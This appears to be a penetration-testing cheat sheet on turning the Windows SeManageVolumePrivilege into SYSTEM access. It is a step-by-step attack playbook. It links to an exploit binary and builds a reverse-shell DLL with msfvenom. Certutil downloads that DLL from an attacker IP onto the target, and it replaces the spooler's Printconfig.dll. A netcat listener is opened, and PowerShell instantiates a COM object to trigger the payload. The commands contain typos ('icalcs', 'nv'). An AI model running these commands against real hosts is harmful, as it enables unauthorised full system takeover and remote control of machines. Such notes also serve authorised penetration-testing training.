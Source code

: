 ```yaml
---
description: >-
  Get full control over C:\ when the user has SeManageVolumePrivilege (allowing
  to read/write any files).
---
```


# SeManageVolumePrivilege

### Local Enumeration

```bash
CMD> whoami /priv 
```



<figure><img src="../../.gitbook/assets/image (37).png" alt=""><figcaption></figcaption></figure>

### Exploiting SeManageVolumePrivilege

#### 1. Download the exploit - [https://github.com/CsEnox/SeManageVolumeExploit/releases](https://github.com/CsEnox/SeManageVolumeExploit/releases)

#### 2. Printconfig.dll to trigger the exploit to gain SYSTEM privilege - [https://github.com/sailay1996/awesome\_windows\_logical\_bugs/blob/master/FileWrite2system.txt](https://github.com/sailay1996/awesome_windows_logical_bugs/blob/master/FileWrite2system.txt)

#### 3. Execution&#x20;

{% code overflow="wrap" %}
```bash
# Run SeManageVolumeExploit 
CMD> SeManageVolumeExploit.exe
CMD> icalcs C:\Windows          # Check you have a (F) under Windows directory

# Copy phoneinfo.dll to *C:\Windows\System32*
# Place Report.wer file and WerTrigger.exe in a same directory.
# Run WerTrigger.exe.

# Kali
msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=xx LPORT=1234 -f dll -o Printconfig.dll

# Target 
certutil -urlcache -split -f http://192.168.45.183/Printconfig.dll 
copy Printconfig.dll C:\Windows\System32\spool\drivers\x64\3\Printconfig.dll 

# Kali
nv -nlvp 1234

# Target
PS> $type = [Type]::GetTypeFromCLSID("{854A20FB-2D44-457D-992F-EF13785D2B51}") 
PS> $object = [Activator]::CreateInstance($type)  
```
{% endcode %}
